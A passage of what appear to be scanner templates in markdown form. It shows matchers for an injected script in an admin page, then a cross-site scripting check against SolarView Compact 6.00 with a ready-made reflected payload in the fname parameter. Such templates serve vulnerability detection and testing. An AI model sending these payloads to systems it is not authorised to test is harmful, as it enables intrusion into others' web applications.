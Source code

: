 ### Step - 3

```
GET /admin/index.php?page=categories HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \<p>Name: \<b>\</script>\<script>alert(document.domain)\</script>\</b>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# SolarView Compact 6.00 - Cross-Site Scripting

## Description

- SolarView Compact 6.00 contains a cross-site scripting vulnerability via fname at /Solar_Image.php.

- severity - high
- tags - xss,solarview,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/Solar_Image.php?mode=resize&fname=test%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. value="test">\<script>alert(document.domain)\</script>">
